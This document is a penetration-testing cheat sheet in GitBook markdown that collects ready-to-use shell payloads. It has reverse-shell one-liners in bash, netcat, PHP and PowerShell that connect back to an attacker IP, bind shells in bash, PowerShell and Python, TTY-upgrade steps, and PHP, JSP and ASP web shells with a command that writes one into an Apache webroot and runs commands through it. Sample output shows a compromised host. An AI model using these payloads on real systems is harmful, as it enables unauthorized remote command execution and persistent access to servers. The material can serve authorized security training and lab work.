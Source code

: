 ```yaml
---
description: >-
  This is a collection of few useful scripts for creating reverse, bind and web
  shells.
---
```


# Setting up Shells

## Reverse Shells:

### Preparing the shell script:

#### Linux target:

{% tabs %}
{% tab title="Bash" %}
```bash
$ bash -c 'bash -i >& /dev/tcp/1.1.1.1/PORT 0>&1'
# OR 
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENEING PORT> >/tmp/f
```
{% endtab %}

{% tab title="PHP" %}
```php
# To be saved in a .php file.
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 <LISTENEING PORT> >/tmp/f"); ?>
```
{% endtab %}
{% endtabs %}

#### Windows Target:

```powershell
> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',PORT);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Setting up a listener on our attacking machine:

```bash
attacking-machine$ nc -lvnp 1234
   -l Listen mode.
   -v Verbose mode.
   -n Disable DNS resolution and only connect from/to IPs, to speed up the connection.
   -p 1234 Port number netcat is listening on.
```

#### Results of the injection:

```bash
attacker@attacking-machine$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [1.1.1.1] from (UNKNOWN) [10.10.10.10] 41572

victim@target-host> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

{% hint style="success" %}
<mark style="color:green;">We successfully got a connection back now it's time to make it more stable and efficient.</mark>
{% endhint %}

### Upgrading TTY:

In order to upgrade our shell to a fully TTY let's follow these steps:

1. Python/stty:

```bash
victim@target$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

2. Raw + Echoless  mode:

```bash
victim@target-host$ ^Z
attacker@attacking-machine$ stty raw -echo
attacker@attacking-machine$ fg
[Enter]
[Enter]
user@target$
```

{% hint style="info" %}
* <mark style="color:blue;">Raw mode:</mark> This means that characters are delivered to the application as soon as they are typed, without any line buffering or special interpretation (such as Ctrl+C for interrupt).
* <mark style="color:blue;">-echo:</mark> By turning off echoing, characters typed by the user won't be displayed on the screen.
{% endhint %}

3. Adjusting the Terminal size:

```bash
victim@target-host$ export TERM=xterm-256color
victim@target-host$ stty rows 67 columns 318
```

{% hint style="success" %}
<mark style="color:green;">Now we can use the full terminal features.</mark>
{% endhint %}

## Bind shells:

### Listener on the target machine:

#### Linux Target:

```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

#### Windows target:

{% tabs %}
{% tab title="PowerShell" %}
```powershell
$ powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endtab %}

{% tab title="Python" %}
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endtab %}
{% endtabs %}

### Connecting to the target:

```bash
$ nc 10.10.10.10 1234
# Successful connection a shell is now open:
victim@target-host> id # our command
uid=33(www-data) gid=33(www-data) groups=33(www-data) # server response
```

{% hint style="success" %}
We <mark style="color:green;">successfully</mark> got a remote shell on the target machine. If it isn't an unstable and "featureless" terminal, we can upgrade to a full TTY as in the [Reverse shells paragraph](setting-up-shells.md#id-1.-reverse-shells).
{% endhint %}

## Web Shells:

### Preparing the shell script:

{% tabs %}
{% tab title="PHP" %}
```php
<?php system($_REQUEST["cmd"]); ?>
```
{% endtab %}

{% tab title="Java" %}
```java
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
{% endtab %}

{% tab title="ASP" %}
```aspnet
<% eval request("cmd") %>

```
{% endtab %}
{% endtabs %}

### Injecting to the webroot:

<table><thead><tr><th>Web Server</th><th align="center">Default Webroot</th><th data-hidden align="center"></th></tr></thead><tbody><tr><td>Apache</td><td align="center">/var/www/html/</td><td align="center"></td></tr><tr><td>Nginx</td><td align="center">/usr/local/nginx/html/</td><td align="center"></td></tr><tr><td>IIS</td><td align="center">c:\inetpub\wwwroot\</td><td align="center"></td></tr><tr><td>XAMPP</td><td align="center">C:\xampp\htdocs\</td><td align="center"></td></tr></tbody></table>

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a <mark style="color:red;">**Linux host running Apache**</mark>, we can write a **PHP** shell with the following command:

```bash
$ echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Execution:

1. Visit the shell.php page on the compromised website, and use `?cmd=id` to execute the `id` command:\
   `http://SERVER_IP:PORT/shell.php?cmd=id`\
   We'll get the result of the `id` command on the web page!&#x20;
2. Or Use `curl` command: `$ curl http://SERVER_IP:PORT/shell.php?cmd=id`

